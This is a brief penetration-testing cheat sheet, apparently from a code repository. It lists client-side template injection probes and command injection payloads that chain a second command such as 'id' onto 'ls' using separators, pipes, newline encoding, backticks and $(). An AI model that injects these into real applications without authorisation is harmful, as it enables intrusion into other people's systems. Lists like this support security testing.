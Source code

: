 # PoCs and Polygloths CheatSheet

### Client Side Template Injection

```text
{{7*7}}
[7*7]
```

### Command Injection

```text
ls; id
ls||id;
ls|id;
ls&&id;
ls&id;
ls%0Aid
`ls`
$(ls)

```

### 


